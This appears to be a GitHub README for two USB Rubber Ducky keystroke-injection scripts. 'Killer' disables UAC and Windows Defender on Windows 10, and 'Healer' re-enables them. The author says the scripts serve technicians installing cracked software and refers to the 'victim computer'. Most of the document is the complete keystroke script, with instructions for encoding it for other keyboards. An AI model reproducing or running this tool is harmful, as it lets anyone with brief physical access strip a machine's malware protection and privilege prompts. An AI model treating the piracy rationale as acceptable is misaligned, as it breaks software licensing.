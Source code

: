 # Rubber-Ducky_Disable_W10-Defender_Technician-Edition
A quickly script for Rubber Ducky to disable w10 defender on large scale

![Alt text](https://github.com/JonnyBanana/Rubber-Ducky_Disable_W10-Defender_Technician-Edition/blob/master/img/BATH213-walking-dead-rubber-duck%20(1).JPG "SnapChat_Leak_2018-by-Jonny-Banana")

In my activities as a technician I have to format many computers during the month, and as many refuse to buy the license </br>
i have to use a lot of crack (although I do not recommend every time, but the money they pull at the time ...).

Since the windows 10 defenses are slightly improved compared to the previous ones </BR>(even if it is still punctured like a colander ...),</br> I had the need to write a quick rubber ducky script that would disable Windows Defender on windows 10 platforms (the more installed system in our time).

I have also added an additional script that reports UAC and windows defender to the recommended settings.
The Scripts are two: Killer and Healer, the first disables and the second of course rehabilitates everything.

<h2>Killer</h2>

As you can see in the first script I set first the initial delay to 2000 ms, but I suggest to increase up to 5000/10000 ms according to the victimized computer, the more powerful the computer is and the less it will read the DUCKY drivers when it comes attached to the victim computer for the first time.

After disabling the UAC control, note that I have used only commands that disable the various functions from interface GUAR, and without closing the final window this to allow you to see if the script worked even if you were not careful ....

Once disabled The UAC was enough to type the string "virus pro" in the windows bar, I chose "virus pro" as it can work both with my native language (virus protection) and in English (virus protection) thus making it multilingual script, also because in Italy it is so much whether these things affect 100 people ....

DELAY 2000</BR>
REM  first disable UAC</BR>
CONTROL ESCAPE</BR>
DELAY 200</BR>
STRING uac </BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
DOWNARROW</BR>
DELAY 200</BR>
DOWNARROW</BR>
DELAY 200</BR>
DOWNARROW</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
LEFT</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
REM it's time to disable the fuckin' defender....</BR>
CONTROL ESCAPE</BR>
DELAY 200</BR>
STRING virus pro</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
SPACE</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
SPACE</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
SPACE</BR>

<h2>Healer</h2>

The second script instead rehabilitates the UAC first and then takes care of Windows Defender, in this case I chose to close the window to have no further action to do, so if the script does not work will remain locked on a random window ...

DELAY 2000</BR>
REM first enable the fuckin' defender....</BR>
CONTROL ESCAPE</BR>
DELAY 200</BR>
STRING virus pro</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
SPACE</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
SPACE</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
SPACE</BR>
DELAY 200</BR>
REM alt f4 close the window</BR>
ALT F4</BR>
REM it's time to enable UAC</BR>
CONTROL ESCAPE</BR>
DELAY 200</BR>
STRING uac </BR>
DELAY 200</BR>
ENTER</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
UPARROW</BR>
DELAY 200</BR>
UPARROW</BR>
DELAY 200</BR>
TAB</BR>
DELAY 200</BR>
ENTER</BR>


<h3>Tested Builds</h3>

1803 (latest oct. 2018)


<h3>Demo</h3>

Click on the image below to see the video demonstration of the scripts.

![Alt text](https://github.com/JonnyBanana/Rubber-Ducky_Disable_W10-Defender_Technician-Edition/blob/master/img/main_win10.png "SnapChat_Leak_2018-by-Jonny-Banana")


<h3>Conclusions...</h3>

This fast script can be very useful in cases like the one explained above.</BR>
The script is not particularly short, this because I did not feel the need, and it is not even hidden, but as I said also this was done on purpose, so as to allow you to see the screen and understand so if the script worked, as it is not a script dedicated to attacks but serves a specific purpose.

The two inject.bin files were created specifically for Italian keyboards, if you have other keyboards you can copy the script and use the ducktoolkit https://ducktoolkit.com/encoder/ to create a binary file for your keyboard.



